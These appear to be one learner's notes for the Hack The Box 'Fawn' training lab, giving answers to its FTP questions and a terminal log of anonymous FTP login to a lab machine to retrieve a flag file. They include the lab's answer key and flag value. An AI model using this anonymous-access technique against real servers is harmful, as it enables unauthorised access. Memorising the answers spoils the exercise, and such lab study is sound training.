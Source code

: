 

#### What does the 3-letter acronym FTP stand for?
File Transfer Protocol

#### Which port does the FTP service listen on usually?
21

#### What acronym is used for the secure version of FTP?
SFTP

#### What is the command we can use to send an ICMP echo request to test our connection to the target?
ping

#### From your scans, what version is FTP running on the target?
vsftpd 3.0.3

#### From your scans, what OS type is running on the target?
unix

#### What is the command we need to run in order to display the 'ftp' client help menu?
ftp -h

#### What is username that is used over FTP when you want to log in without having an account?
anonymous

#### What is the response code we get for the FTP message 'Login successful'?
230

#### There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.
ls

#### What is the command used to download the file we found on the FTP server?
get

#### Submit root flag
035db21c881520061c53e0536e44f815


``` bash 
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Fawn]
└──╼ $ftp 10.129.149.240
Connected to 10.129.149.240.
220 (vsFTPd 3.0.3)
Name (10.129.149.240:ramdark): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (189.3939 kB/s)
ftp> bye 
221 Goodbye.
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Fawn]
└──╼ $cat flag.txt 
035db21c881520061c53e0536e44f815
┌─[ramdark@parrot]─[~/Documents/Hacking_Notes_RFC/HTB/StartPoint/Fawn]
└──╼ $


```

